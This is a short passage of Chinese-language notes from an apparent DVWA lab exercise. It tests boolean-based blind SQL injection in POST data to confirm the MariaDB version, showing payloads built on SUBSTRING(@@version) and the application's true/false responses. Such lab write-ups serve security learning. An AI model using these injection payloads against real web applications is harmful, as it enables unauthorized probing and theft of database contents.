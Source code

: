 ![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2063.png)

### 參考之前已經得知的版本

```jsx
10.1.26-MariaDB-0+de
```

false

```sql
1 AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%')
```

只能多嘗試，後來發現可能是單引號的問題，看起來是因為 POST data 的關係，payload 被視為字串，先換成 `=` 來測試

```sql
(SELECT SUBSTRING((SELECT @@version),1,1)) = 1
```

true (`User ID exists in the database.`)

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,1)) = 1 &Submit=Submit
```

true (`User ID exists in the database.`)
